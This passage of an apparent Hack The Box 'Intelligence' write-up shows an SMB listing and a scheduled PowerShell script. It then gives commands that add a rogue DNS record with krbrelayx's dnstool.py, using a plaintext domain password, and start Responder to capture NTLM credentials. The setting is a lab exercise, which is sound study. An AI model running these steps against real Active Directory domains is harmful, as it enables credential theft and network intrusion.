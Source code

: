 Got the `user.txt` from "Tiffany.Molina" User folder and there's another user on the box "Ted.Graves".
```bash
smb: \Tiffany.Molina\Desktop\> dir
  .                                  DR        0  Mon Apr 19 06:21:46 2021
  ..                                 DR        0  Mon Apr 19 06:21:46 2021
  user.txt                           AR       34  Sat Nov 27 01:48:28 2021

		3770367 blocks of size 4096. 1450547 blocks available
```

There's only 1 interesting file is  `downdetector.ps1` file in `\IT` share.
```ps1
# Check web server status. Scheduled to run every 5min
Import-Module ActiveDirectory 
foreach($record in Get-ChildItem "AD:DC=intelligence.htb,CN=MicrosoftDNS,DC=DomainDnsZones,DC=intelligence,DC=htb" | Where-Object Name -like "web*")  {
try {
$request = Invoke-WebRequest -Uri "http://$($record.Name)" -UseDefaultCredentials
if(.StatusCode -ne 200) {
Send-MailMessage -From 'Ted Graves <Ted.Graves@intelligence.htb>' -To 'Ted Graves <Ted.Graves@intelligence.htb>' -Subject "Host: $($record.Name) is down"
}
} catch {}
}
```

This script is running on Scheduler in every 5min from user "Ted.Graves" and checking inactive hosts from domain contorler's DNS records which start with `web*` using his creds.

If we add a DNS record in the domain control with that we can do [NTLM Relay Attack](https://www.qomplx.com/qomplx-knowledge-ntlm-relay-attacks-explained/#what-are-ntlm-relay-attacks).

## NTLM Relay Attack

For that we can use [responder](https://github.com/lgandx/Responder); **Source [hacktricks](https://book.hacktricks.xyz/pentesting/pentesting-network/spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks#responder)**

Adding DNS record in the domain controler with [krbrelayx](https://github.com/dirkjanm/krbrelayx) `dnstool.py` script.
```bash
❯ python dnstool.py -u 'intelligence.htb\Tiffany.Molina' -p NewIntelligenceCorpUser9876 -r webduck -d 10.10.14.42 -a add 10.10.10.248
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[-] Adding extra record
[+] LDAP operation completed successfully
```

Running responder on "tun0" interface on Analyze mode 
```bash
❯ sudo responder -I tun0 -A -v #
```
